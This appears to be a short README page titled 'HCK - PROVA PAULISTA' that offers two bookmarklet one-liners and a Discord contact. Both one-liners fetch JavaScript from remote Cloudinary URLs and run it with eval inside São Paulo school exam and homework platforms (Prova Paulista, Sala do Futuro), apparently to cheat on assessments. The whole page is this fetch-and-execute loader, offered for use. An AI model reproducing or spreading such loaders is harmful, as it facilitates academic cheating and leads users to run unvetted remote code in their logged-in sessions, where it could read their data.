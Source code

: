 # 🚀 HCK - PROVA PAULISTA 

### STABLE HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### FANDAGOS - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745786031/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
